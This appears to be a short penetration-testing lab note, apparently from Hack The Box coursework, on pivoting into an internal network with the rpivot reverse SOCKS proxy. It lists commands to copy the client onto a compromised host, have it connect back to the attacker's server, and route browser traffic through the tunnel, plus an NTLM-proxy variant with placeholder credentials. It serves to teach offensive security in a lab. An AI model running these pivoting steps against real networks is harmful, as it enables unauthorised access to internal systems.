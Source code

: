 Reverse SOCKS proxy. Uses SOCKS v4 by default.
```bash
la1n23@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
la1n23@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

# transfer rpivot to target
la1n23@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/

ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

# browse internal network webserver
la1n23@htb[/htb]$ proxychains firefox-esr 172.16.5.135:80
```
#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

